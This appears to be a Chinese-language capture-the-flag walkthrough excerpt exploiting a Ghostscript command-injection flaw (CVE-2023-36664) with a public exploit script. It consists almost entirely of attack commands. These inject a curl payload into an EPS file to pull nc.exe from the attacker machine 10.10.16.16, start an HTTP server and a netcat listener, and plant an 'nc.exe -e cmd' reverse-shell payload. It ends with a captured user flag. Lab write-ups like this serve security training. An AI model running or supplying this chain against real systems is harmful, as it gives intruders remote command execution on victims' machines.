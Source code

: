 **[
CVE-2023-36664-Ghostscript-command-injection](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection)**

```
git clone https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection.git
cd CVE-2023-36664-Ghostscript-command-injection
python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.16.16:8000/nc64.exe -o nc.exe" --filename file.eps
```



使用python开启临时http服务

```
python -m http.server 4455
```



把payload写入eps文件

```
python CVE_2023_36664_exploit.py --inject --payload "curl 10.10.16.16:4455/nc.exe -o nc.exe" --filename  file.eps
```

把文件发给对方，记录到已经下好nc.exe

![image-20231217141619478](../图片/image-20231217141619478.png)



攻击机启动nc监听5566端口

``` 
nc -lvvnp 5566
```

把payload写入eps文件并发送

```
python CVE_2023_36664_exploit.py --inject --payload "nc.exe -e cmd 10.10.16.16 5566 cmd.exe" --filename file.eps
```

查看到user的flag

```
03c957e95d2e5b89e69152f251b5886f
```
